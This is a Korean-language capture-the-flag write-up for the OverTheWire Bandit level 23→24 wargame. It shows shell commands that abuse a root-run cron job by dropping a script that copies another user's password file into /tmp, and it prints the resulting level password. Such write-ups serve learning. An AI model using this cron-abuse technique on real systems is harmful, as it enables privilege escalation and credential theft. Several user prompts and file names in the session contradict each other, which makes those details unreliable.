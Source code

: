```yaml
---
title: "Bandit Level 23 → Level 24"
date: 2024-02-12
categories: [Bandit]
tags: [Bandit]
---
```


## 문제
<https://overthewire.org/wargames/bandit/bandit24.html>

## 목표
다음 레벨의 패스워드를 찾는다.
> 시간 기반 작업 스케줄러 `cron`에서 일정한 간격으로 프로그램이 실행된다. `/etc/cron.d/` 에서 어떤 명령이 실행되고 있는지 확인해라.

## 풀이

```sh
bandit22@bandit:~$ cd /etc/cron.d/
bandit22@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit22@bandit:/etc/cron.d$ cat cronjob_bandit23
```  

`/etc/cron.d/`로 이동해서 파일 목록을 확인해보니 `cronjob_bandit22`라는 파일이 보인다.  

&nbsp;  

```sh
bandit21@bandit:/etc/cron.d$ cat cronjob_bandit22
@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
```

파일의 내용을 보니 프로그램 부팅시, 매분 매초 `/usr/bin/cronjob_bandit23.sh` 파일을 `/dev/null`로 버린다고 한다.

&nbsp;  

```sh 
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

파일의 내용을 확인해보면 `/var/spool/bandit24/foo`에 있는 모든 스크립트들 중 소유자가 `bandit23`인 경우 실행하고 60초 뒤에 모든 파일을 삭제한다고 한다.  

&nbsp;  

60초 안에 스크립트를 작성하기는 힘드니 새 디렉토리에 패스워드를 알아내는 스크립트를 작성한다.  

```sh
bandit23@bandit:/etc/cron.d$ mkdir /tmp/new_dir
bandit23@bandit:/etc/cron.d$ cd /tmp/new_dir
bandit23@bandit:/tmp/new_dir$ vi Password.sh
```

```sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/Password
```  

&nbsp;  

파일을 읽을 수 있게 권한을 추가해준 뒤 `/var/spool/bandit24/foo`로 파일을 복사해준다.  

```sh
bandit23@bandit:/tmp/new_dir$ chmod +x Password.sh
bandit23@bandit:/tmp/new_dir$ cp Password.sh /var/spool/bandit24/foo/Password.sh
```  

&nbsp;  

`/tmp/Password`에 저장된 패스워드를 확인한다.  

```sh
bandit23@bandit:/tmp/new_dir$ cat /tmp/Password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```  

&nbsp;  

**Password : VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar**

## 배운 것

- 쉘 스크립트를 작성하는 방법